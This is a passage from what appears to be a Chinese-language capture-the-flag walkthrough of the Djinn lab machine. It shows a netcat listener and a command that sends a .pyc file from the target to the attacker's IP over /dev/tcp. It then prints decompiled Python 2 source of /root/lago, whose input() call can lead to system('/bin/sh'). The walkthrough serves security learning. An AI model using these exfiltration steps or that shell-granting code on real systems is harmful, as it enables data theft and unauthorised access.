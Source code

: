  kali监听：

```bahs
└─# nc -lvvp 2233 > .pyc
```

sam 用户发送：

```bash
sam@djinn:/home/sam$ cat .pyc > /dev/tcp/192.168.2.7/2233
```

接下来反编译 .pyc 文件

使用网站 [python反编译 - 在线工具 (tool.lu)](https://tool.lu/pyc/)

得到源码，python2 写的 ，就是 `/root/lago` 的源码

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s==num :
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'
```